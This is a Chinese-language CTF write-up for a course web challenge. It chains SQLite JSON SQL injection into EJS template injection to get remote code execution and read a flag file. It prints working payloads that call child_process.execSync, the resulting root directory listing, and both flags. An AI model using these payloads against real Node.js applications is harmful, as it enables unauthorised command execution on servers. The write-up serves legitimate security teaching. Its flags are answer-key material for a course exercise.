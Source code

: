 ```yaml
---
title: Simple Web 0x42(2023 HW - Double Injection - FLAG2)
tags: [eductf, CTF, Web]

category: "Security > Course > NTU CS > Web"
---
```


# Simple Web 0x42(2023 HW - Double Injection - FLAG2)
## Background
Node JS ejs SSTI
## Source code
呈上題
## Recon
這一題想了很久，因為我沒有跟影片，想說應該都是跟去年差不多或是在臺科的網頁安全一樣，但其實相關的payload就是在講義上，花了一整天寫的我be like:
![](https://memeprod.ap-south-1.linodeobjects.com/user-template/7266c8627075418a7979b79481bf0f84.png)
基本上就是連接前一題的思緒，既然我們知道admin的password也就是FLAG1，那麼我們就可以用前一題的payload:
```!
admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- #
```
後面搭配簡單的XSS也是可以通的，原本想說可以利用XSS達到RCE，但就我之前和Kaibro的詢問，XSS應該沒有這麼powerful，所以我就往SSTI或command injection下手，後來經過@cs-otaku的提點才知道ejs有一個洞，也是上課有提到的SSTI控到RCE，當時看的文章是Huli大寫的，內容詳細說明了為甚麼會有這個洞以及該如何構造攻擊的payload，不過整體更複雜也算是需要客製化的題目才需要了解這麼多，這一題算是只要取得經典的payload就可以攻克，如果想要用動態看他跑得怎麼樣，可以用web storm跟，想知道整體的動態流程可以看[之前寫的文章](https://hackmd.io/@SBK6401/HkgkDNsPp)
## Exploit - Ejs SSTI RCE
* Payload 1:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("ls -al /").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result:
        ```
        total	76	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	.	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	..	
        -rwxr-xr-x	1	root	root	0		Dec	18	18:54	.dockerenv	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	bin	
        drwxr-xr-x	5	root	root	340		Dec	18	18:54	dev	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	etc	
        -rw-r--r--	1	root	root	28		Dec	18	17:15	flag1.txt	
        -rw-r--r--	1	root	root	23		Dec	18	17:15	flag2-1PRmDsTXoo3uPCdq.txt	
        drwxr-xr-x	1	root	root	4096	Dec	18	17:15	home	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	lib	
        drwxr-xr-x	5	root	root	4096	Dec	7	09:43	media	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	mnt	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	opt	
        dr-xr-xr-x	497	root	root	0		Dec	18	18:54	proc	
        drwx------	1	root	root	4096	Dec	11	18:36	root	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	run	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	sbin	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	srv	
        dr-xr-xr-x	13	root	root	0		Dec	18	18:54	sys	
        drwxrwxrwt	1	root	root	4096	Dec	22	17:16	tmp	
        drwxr-xr-x	1	root	root	4096	Dec	18	13:27	usr	
        drwxr-xr-x	12	root	root	4096	Dec	7	09:43	var	
        ```
* Payload 2:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("cat /flag2-1PRmDsTXoo3uPCdq.txt").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result: `FLAG{ezzzzz_sqli2ssti}`

Flag: `FLAG{ezzzzz_sqli2ssti}`

## 補充: How to debug it?
這邊示範如何用vscode debug這個project
1. 可以先看[這個文章](https://hackmd.io/@SBK6401/HkgkDNsPp)準備一些前置作業
2. 在文章中有提到，docker幫忙做的事情，現在要自己完成
    ```bash
    $ sudo touch /flag1.txt ; sudo chmod 777 /flag1.txt ; sudo echo "test" > /flag1.txt
    $ sudo node init-db.js ; sudo chmod 444 /etc/db.sqlite3
    ```
3. 接著就可以開始debug app.js了
## Reference
[CTF 中的 EJS 漏洞筆記](https://blog.huli.tw/2023/06/22/ejs-render-vulnerability-ctf/?ref=blog.splitline.tw)
[AIS3-EOF-CTF-2019-Quals - echo WP](https://github.com/CykuTW/My-CTF-Challenges/tree/master/AIS3-EOF-CTF-2019-Quals/echo)
[ejs RCE CVE-2022-29078 bypass](https://inhann.top/2023/03/26/ejs/)